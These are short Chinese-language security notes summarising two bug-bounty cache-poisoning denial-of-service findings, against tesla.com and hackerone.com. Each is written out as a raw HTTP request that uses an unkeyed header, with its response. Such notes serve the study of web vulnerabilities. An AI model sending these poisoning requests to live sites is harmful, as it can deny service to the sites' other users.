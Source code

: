 ## tesla web缓存中毒导致的dos
#web_cache #dos
1. WAF 看见“burpcollaborator.net” 就会给出您已经被阻止
2. 缓存中毒，步骤，Any-Header为非缓存键
```code
GET /en_GB/roadster?dontpoisoneveryone=1 HTTP/1.1  
Host: www.tesla.com  
Any-Header: burpcollaborator.net  
  
HTTP/1.1 403 Forbidden  
  
Access Denied. Please contact waf@tesla.com
```

## [Denial of service via cache poisoning](https://hackerone.com/reports/409370)
#web_cache  #dos
1. Drupal缓存链
2. web缓存中毒 X-Forwarded-Port 非缓存建
3. X-Forwarded-Port 重定向网站端口
```code
GET /index.php?dontpoisoneveryone=1 HTTP/1.1  
Host: www.hackerone.com  
X-Forwarded-Port: 123  
  
HTTP/1.1 302 Found  
Location: https://www.hackerone.com:123/
```
![](../media/Pasted%20image%2020231004190327.png)

